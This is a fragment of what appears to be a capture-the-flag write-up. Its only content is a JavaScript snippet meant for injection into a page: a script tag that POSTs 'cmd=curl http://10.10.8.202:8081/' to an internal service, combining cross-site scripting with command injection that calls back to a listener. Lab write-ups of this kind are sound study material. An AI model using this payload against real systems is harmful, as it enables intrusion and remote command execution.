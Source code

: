 ```js
<script>
fetch("http://10.10.49.94:8080/", {
  method: "POST",
  headers: { "Content-Type": "application/x-www-form-urlencoded" },
  body: "cmd=curl http://10.10.8.202:8081/"
});
</script>
```

do bunch of things, 
in anyway, it turns out actually it is very easy and also very close 
